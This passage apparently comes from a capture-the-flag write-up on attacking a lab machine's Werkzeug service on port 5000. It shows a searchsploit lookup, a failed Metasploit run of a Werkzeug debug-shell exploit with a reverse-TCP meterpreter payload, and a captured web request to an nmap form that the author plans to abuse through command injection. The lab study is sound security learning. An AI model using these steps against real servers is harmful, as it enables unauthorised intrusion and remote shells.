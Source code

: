 ```
2021/02/07 13:10:26 Finished
===============================================================
```
Nothing, no sub-directories.

Let's do a SearchSploit.
```
hippoeug@kali:~$ searchsploit werkzeug
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                      |  Path
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Werkzeug - 'Debug Shell' Command Execution                                                                                          | multiple/remote/43905.py
Werkzeug - Debug Shell Command Execution (Metasploit)                                                                               | python/remote/37814.rb
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```
Since there is a Metasploit module, let's give this a shot real quick.
```
msf5 > use exploit/multi/http/werkzeug_debug_rce
[*] No payload configured, defaulting to python/meterpreter/reverse_tcp
msf5 exploit(multi/http/werkzeug_debug_rce) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   werkzeug 0.10 and older


msf5 exploit(multi/http/werkzeug_debug_rce) > show options
...
msf5 exploit(multi/http/werkzeug_debug_rce) > exploit

[*] Started reverse TCP handler on 10.10.14.12:4444 
[-] Secret code not detected.
[*] Exploit completed, but no session was created.
msf5 exploit(multi/http/werkzeug_debug_rce) > 
```
Unfortunately, our version is newer and would not work!

## 3. Port 5000 HTTP Attack Attempt 1
Let's run Burp Suite and try to see what we get when running a the NMAP function.
```
POST / HTTP/1.1
Host: 10.129.72.251:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.129.72.251:5000/
Content-Type: application/x-www-form-urlencoded
Content-Length: 24
Connection: close
Upgrade-Insecure-Requests: 1

ip=127.0.0.1&action=scan
```
Interesting, let's try to run multiple commands by modifying the request on BurpSuite. 